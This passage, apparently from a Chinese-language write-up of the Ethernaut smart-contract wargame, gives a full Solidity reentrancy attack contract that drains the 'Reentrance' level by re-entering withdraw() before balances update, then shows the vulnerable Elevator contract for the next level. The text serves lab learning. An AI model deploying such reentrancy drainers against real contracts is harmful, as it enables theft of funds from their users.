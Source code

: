 ### Exploit
1. `donate()`
2. `withdraw()`
3. 重入 `withdraw()`，此時 `balances[msg.sender]` 還沒被改變

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    IReentrance target;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        target = IReentrance(_targetAddr);
    }

    function donateAndWithdraw() public payable {
        require(msg.value >= targetValue);
        target.donate.value(msg.value)(address(this));
        target.withdraw(msg.value);
    }

    receive() external payable {
        uint targetBalance = address(target).balance;
        if (targetBalance >= targetValue) {
          target.withdraw(targetValue);
        }
    }
}
```
Level completed.

## 11. Elevator
目標 `top = true`

需要自己實作 `isLastFloor()`
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```